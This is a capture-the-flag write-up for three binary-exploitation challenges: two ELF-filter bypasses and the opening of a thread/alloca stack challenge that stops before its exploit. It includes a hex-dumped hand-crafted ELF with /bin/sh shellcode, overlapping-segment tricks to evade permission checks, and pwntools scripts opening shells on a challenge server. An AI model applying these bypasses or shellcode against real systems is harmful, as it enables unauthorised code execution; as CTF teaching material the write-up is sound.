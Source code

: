 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located in 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. Since bytes located in 0x08 to 0x0f is `\x00`, it can pass the check, and change permission to RWX. my shellcode starts at 0xe8, so set `Entry point address` to `0x100e8`. Now it works!
# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5003')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex4', 'rb').read())
p.sendlineafter(b')', dt)
p.interactive()
```

---
# squ1rrel-logon

```bash
[*] '/mnt/d/squ1rrel/squ1rrel-logon/terminal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    Stripped:   No
```

Partial RELRO, No canary, No PIE. But Nevermind. I don't use these.

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  print_banner();
  pthread_create(&userinfo_thread, 0LL, userinfo, 0LL);
  pthread_create(&auth_thread, 0LL, auth, 0LL);
  pthread_join(auth_thread, 0LL);
  return 0;
}
```

It use two threads.

```C
void *__fastcall auth(void *a1)
{
  char s1[256]; // [rsp+10h] [rbp-210h] BYREF
  char buf[264]; // [rsp+110h] [rbp-110h] BYREF
  int v4; // [rsp+218h] [rbp-8h]
  int fd; // [rsp+21Ch] [rbp-4h]

  fd = open("flag.txt", 0);
  if ( fd < 0 )
  {
    puts("Error initializing authentication. Please contact support if on remote.");
    exit(1);
  }
  v4 = read(fd, buf, 0x100uLL);
  buf[v4 - 1] = 0;
  close(fd);
  pthread_join(userinfo_thread, 0LL);
  printf("\x1B[1;36m[SYSTEM] Enter security token: \x1B[0m");
  readline(s1, 0x100uLL);
  if ( !strcmp(s1, buf) )
  {
    puts("\x1B[1;32m[ACCESS GRANTED] Welcome to the system\x1B[0m");
    system("/bin/sh");
  }
  else
  {
    puts("\x1B[1;31m[ACCESS DENIED] Invalid security token\x1B[0m");
    puts("\x1B[1;31m[SYSTEM] Session terminated\x1B[0m");
  }
  return 0LL;
}
```

`auth` read `flag.txt` content and write in stack. Then `userinfo_thread` operate mainly.

```C
void *__fastcall userinfo(void *a1)
{
  void *v1; // rsp
  void *v2; // rsp
  _QWORD v4[2]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-18h] BYREF
  char *v7; // [rsp+20h] [rbp-10h]
  char *v8; // [rsp+28h] [rbp-8h]

  v4[1] = a1;
  puts("\x1B[1;36m[AUTH] User identification required\x1B[0m");
  printf("First Name Length: ");
  __isoc99_scanf("%ld%*c", &v6);
  printf("Surname Length: ");
  __isoc99_scanf("%ld%*c", &v5);
  if ( v6 > 0x100000000LL || v5 > 0x100000000LL )
  {
    puts("Too long for our systems.");
    exit(1);
  }
  v1 = alloca(16 * ((v6 + 23) / 0x10));
  v8 = (char *)v4;
  v2 = alloca(16 * ((v5 + 23) / 0x10));
  v7 = (char *)v4;
  printf("First Name: ");
  readline(v8, v6);
  printf("Surname: ");
  readline(v7, v5);
  printf("Authenticating Employee %s %s\n", v8, v7);
  return 0LL;
}
```

`alloca` function is like `malloc`, but it use stack space.